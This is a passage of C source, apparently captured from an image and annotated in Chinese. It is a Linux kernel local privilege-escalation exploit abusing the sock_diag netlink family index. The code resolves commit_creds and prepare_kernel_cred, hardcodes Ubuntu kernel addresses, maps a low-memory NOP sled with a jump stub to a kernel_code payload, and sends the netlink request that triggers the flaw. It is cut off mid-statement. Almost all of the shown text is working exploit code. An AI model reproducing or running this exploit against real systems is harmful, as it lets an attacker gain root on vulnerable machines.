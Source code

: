 ``` C
  memset(&req, 0, sizeof(req));
  req.nlh.nlmsg_len = sizeof(req);
  req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
  req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
  req.nlh.nlmsg_seq = 123456;

  //req.r.sdiag_family = 89;
  req.r.udiag_states = -1;
  req.r.udiag_show = UDIAG_SHOW_NAME | UDIAG_SHOW_PEER | UDIAG_SHOW_RQLEN;

  if(argc==1){
    printf("Run: %s Fedora|Ubuntu\n",argv[0]);
    return 0;
  }
  else if(strcmp(argv[1],"Fedora")==0){
    commit_creds = (_commit_creds) get_symbol("commit_creds");
    prepare_kernel_cred = (_prepare_kernel_cred) get_symbol("prepare_kernel_cred");
    sock_diag_handlers = get_symbol("sock_diag_handlers");
    nl_table = get_symbol("nl_table");
    
    if(!prepare_kernel_cred || !commit_creds || !sock_diag_handlers || !nl_table){
    printf("some symbols are not available!\n");
    exit(1);
    }

    family = (nl_table - sock_diag_handlers) / 4;
    printf("family=%d\n",family);
    req.r.sdiag_family = family;
    
    if(family>255){
    printf("nl_table is too far!\n");
    exit(1);
    }
  }
  else if(strcmp(argv[1],"Ubuntu")==0){
    commit_creds = (_commit_creds) 0xc106bc60;
    prepare_kernel_cred = (_prepare_kernel_cred) 0xc106bea0;
    req.r.sdiag_family = 81;
  }

  unsigned long mmap_start, mmap_size;
  mmap_start = 0x10000;  //选择了一块1MB多的内存区域
  mmap_size = 0x120000;  
  printf("mmapping at 0x%lx, size = 0x%lx\n", mmap_start, mmap_size);

        if (mmap((void*)mmap_start, mmap_size, PROT_READ|PROT_WRITE|PROT_EXEC,
                MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) == MAP_FAILED) {
                printf("mmap fault\n");
                exit(1);
        }
  memset((void*)mmap_start, 0x90, mmap_size);         //将其全部填充为0x90，在X86系统中对应的是NOP指令

  char jump[] = "\x55\x89\xe5\xb8\x11\x11\x11\x11\xff\xd0\x5d\xc3"; // jump_payload in asm
  unsigned long *asd = &jump[4];
  *asd = (unsigned long)kernel_code; //使用kernel_code函数的地址替换掉jump[]中的0x11

    //将jump这段代码放在mmap内存区域的最后，也就是说只要最后能够跳转到这块区域，就可以执行到jump代码，进而跳转执行kernel_code，因为这块区域中布满了NOP指令。
  memcpy( (void*)mmap_start+mmap_size-sizeof(jump), jump, sizeof(jump));

    //所有准备工作完成之后，最后在这里发送socket触发这个漏洞
  if ( send(fd, &req, sizeof(req), 0) < 0) {
    printf("bad send\n");
    close(fd);
```